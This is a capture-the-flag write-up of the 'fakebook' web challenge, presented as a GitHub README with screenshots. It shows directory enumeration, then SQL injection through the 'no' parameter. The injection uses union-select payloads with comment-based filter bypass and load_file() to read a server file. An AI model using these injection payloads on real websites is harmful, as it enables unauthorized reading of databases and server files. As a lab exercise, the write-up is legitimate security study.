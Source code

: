 # fakebook

![Screenshot from 2021-08-01 12-52-50](https://user-images.githubusercontent.com/87865134/127760908-1acaaa30-6ab8-4843-85b2-09161dfac3c7.png)
![Screenshot from 2021-08-01 12-53-11](https://user-images.githubusercontent.com/87865134/127760913-84698e9e-9ca1-4106-bde6-e0363f923068.png)
![Screenshot from 2021-08-01 12-53-29](https://user-images.githubusercontent.com/87865134/127760915-405e7d7c-352f-4413-ac07-37fae8fe962f.png)
![Screenshot from 2021-08-01 12-53-44](https://user-images.githubusercontent.com/87865134/127760917-2ece6083-fbd8-44ec-9343-2c6d6c9a74d5.png)

## 1. Information gathering
### - Use `dirsearch` to find hidden files
  ![Screenshot from 2021-08-01 12-59-38](https://user-images.githubusercontent.com/87865134/127761023-ee6b3a67-f287-40f8-90e6-3f2516d3ce12.png)
  
  - flag maybe in file flag.php

## 2. Find vulnerabilities
 - **url:** `http://111.200.241.244:54769/view.php?no=1` get informations of user by `no` parameter      
 
 ![Screenshot from 2021-08-01 12-53-44](https://user-images.githubusercontent.com/87865134/127760917-2ece6083-fbd8-44ec-9343-2c6d6c9a74d5.png)
  
    - => Maybe SQLi  
  
 - **test:**   
 ```
 /view.php?no=-1'
 ``` 
 
 ![Screenshot from 2021-08-01 13-42-10](https://user-images.githubusercontent.com/87865134/127761902-0c3cb3b6-0d7d-4196-8ced-af97ecc93332.png)
  
  ```
  /view.php?no=2 union/**/select 1, 2, null, null #
  ```  
  
  ![Screenshot from 2021-08-01 13-46-31](https://user-images.githubusercontent.com/87865134/127762004-7ed32751-110a-463a-a197-aeb009a58cd0.png)

  
   > found SQLi

## 3. Exploit vulnerabilities
  - use `load_file()` read file `/var/www/html/flag.php`  to get flag
  ```
  /view.php?no=2 union/**/select 1, load_file("/var/www/html/flag.php"), null, null #
  ```
  
  ![Screenshot from 2021-08-01 13-49-50](https://user-images.githubusercontent.com/87865134/127762060-87836ea0-1572-4497-b7fd-551953bdb52c.png)

### - Description:
  > **category:** SQL Injection
